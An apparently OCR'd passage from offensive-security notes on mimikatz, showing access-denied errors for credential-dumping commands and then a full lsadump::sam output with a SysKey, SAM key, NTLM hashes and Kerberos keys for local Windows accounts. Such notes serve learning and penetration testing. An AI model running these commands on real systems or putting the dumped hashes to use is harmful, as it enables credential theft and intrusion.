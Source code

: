 ```console
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)

mimikatz # lsadump::lsa /patch
ERROR kuhl_m_lsadump_lsa_getHandle ; OpenProcess (0x00000005)

mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

## 1.1. Successful `lsadump::sam` example

```console
mimikatz # lsadump::sam
Domain : CLIENT
SysKey : 732c3b24f5f9c476753d4d1bc72961d7
Local SID : S-1-5-21-1540030335-1244868743-683777651

SAMKey : 3e3e9d70bd634ed43edbe5548d50e40e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e19ccf75ee54e06b06a5907af13cef42

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : d0e4eff03c20be1cf228acad5ae9dffa

* Primary:Kerberos-Newer-Keys *
    Default Salt : DESKTOP-GKEGHIVAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 56498ceffdf35f16cffb36744b2f98f76955058b3918c827e173fc7aa401f31f
      aes128_hmac       (4096) : 1f052f941e6b84ff8df58a0157dd7b25
      des_cbc_md5       (4096) : d5612916b59bad51

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DESKTOP-GKEGHIVAdministrator
    Credentials
      des_cbc_md5       : d5612916b59bad51


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 5a2b1b78290d381def497905d467fcff

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b848a29d177ddaf268c55ff8b0a27e40

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : fd924dec8a07c294a448fe64a59d6253b11700fd8b9ba0b04914baca366adee8
```